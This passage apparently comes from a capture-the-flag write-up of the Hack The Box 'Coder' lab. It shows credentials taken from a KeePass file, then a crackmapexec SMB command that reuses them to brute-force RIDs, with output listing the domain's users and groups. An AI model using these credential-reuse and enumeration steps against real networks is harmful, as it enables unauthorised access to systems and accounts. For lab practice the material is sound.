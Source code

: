 Inside of the KeePass file we also find a URL: https://teamcity-dev.coder.htb.

And we get usernames and passwords:

```yaml
O365 => 	s.blade@coder.htb:AmcwNO60Zg3vca3o0HDrTC6D
Teamcity => s.blade:veh5nUSZFFoqz9CrrhSeuwhA
```

## AD Tomfoolery: Part One

Looks like we can use *Server Message Block (SMB)* to connect using the password `AmcwNO60Zg3vca3o0HDrTC6D`, which means the relative IDs can be bruteforced to obtain all the users present on the domain:

```zsh
./cme smb coder.htb -u s.blade -p AmcwNO60Zg3vca3o0HDrTC6D --rid-brute
SMB         10.10.11.207    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:coder.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.207    445    DC01             [+] coder.htb\s.blade:AmcwNO60Zg3vca3o0HDrTC6D 
SMB         10.10.11.207    445    DC01             [+] Brute forcing RIDs
SMB         10.10.11.207    445    DC01             498: CODER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.207    445    DC01             500: CODER\Administrator (SidTypeUser)
SMB         10.10.11.207    445    DC01             501: CODER\Guest (SidTypeUser)
SMB         10.10.11.207    445    DC01             502: CODER\krbtgt (SidTypeUser)
SMB         10.10.11.207    445    DC01             512: CODER\Domain Admins (SidTypeGroup)
SMB         10.10.11.207    445    DC01             513: CODER\Domain Users (SidTypeGroup)
SMB         10.10.11.207    445    DC01             514: CODER\Domain Guests (SidTypeGroup)
SMB         10.10.11.207    445    DC01             515: CODER\Domain Computers (SidTypeGroup)
SMB         10.10.11.207    445    DC01             516: CODER\Domain Controllers (SidTypeGroup)
SMB         10.10.11.207    445    DC01             517: CODER\Cert Publishers (SidTypeAlias)
SMB         10.10.11.207    445    DC01             518: CODER\Schema Admins (SidTypeGroup)
SMB         10.10.11.207    445    DC01             519: CODER\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.207    445    DC01             520: CODER\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.207    445    DC01             521: CODER\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.207    445    DC01             522: CODER\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.207    445    DC01             525: CODER\Protected Users (SidTypeGroup)
SMB         10.10.11.207    445    DC01             526: CODER\Key Admins (SidTypeGroup)
SMB         10.10.11.207    445    DC01             527: CODER\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.207    445    DC01             553: CODER\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.207    445    DC01             571: CODER\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.207    445    DC01             572: CODER\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.207    445    DC01             1000: CODER\DC01$ (SidTypeUser)
SMB         10.10.11.207    445    DC01             1101: CODER\DnsAdmins (SidTypeAlias)
SMB         10.10.11.207    445    DC01             1102: CODER\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.207    445    DC01             1106: CODER\e.black (SidTypeUser)
SMB         10.10.11.207    445    DC01             1107: CODER\c.cage (SidTypeUser)
SMB         10.10.11.207    445    DC01             1108: CODER\j.briggs (SidTypeUser)
SMB         10.10.11.207    445    DC01             1109: CODER\l.kang (SidTypeUser)
SMB         10.10.11.207    445    DC01             1110: CODER\s.blade (SidTypeUser)
SMB         10.10.11.207    445    DC01             2101: CODER\PKI Admins (SidTypeGroup)
SMB         10.10.11.207    445    DC01             3601: CODER\Software Developers (SidTypeGroup)
```
